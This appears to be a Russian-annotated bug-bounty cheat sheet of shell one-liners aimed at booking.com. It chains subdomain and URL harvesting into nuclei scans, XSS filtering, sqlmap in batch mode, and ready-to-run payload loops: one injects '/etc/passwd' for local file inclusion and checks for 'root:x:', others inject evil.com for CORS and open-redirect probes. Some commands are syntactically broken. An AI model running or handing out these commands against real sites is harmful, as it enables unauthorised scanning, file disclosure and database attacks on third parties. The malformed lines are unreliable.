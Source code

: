 * echo booking.com > target.txt
# найдет субдомены 
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляем только живые 
* cat subs.txt | httpx -o aliveSubs.txt
 _________________________________________ вытащить все юрл с субдоменов _________________________________________
* cat subs.txt | waybackurls | tee urls.txt
 _________________________________________ перверяет субдомен тейковер среди живых доменов _________________________________________
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
_________________________________________ проверяет на cve, exposure, vuln _________________________________________
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
  _________________________________________ из юрл извлекаем те юрл у которых есть параметры и js файлы _________________________________________
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
  _________________________________________ проверяет баги в js файлах _________________________________________
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
  _________________________________________ проверяет xss _________________________________________
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
 _________________________________________ проверяет lfi _________________________________________
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
  ________________________________________ проверяет sqli ________________________________________
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
  ______________________________________ проверяет открытое перенаправление _________________________________________
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
 _________________________________________ нуклей фазер проверет все уязвимости _________________________________________
* nf -d booking.com

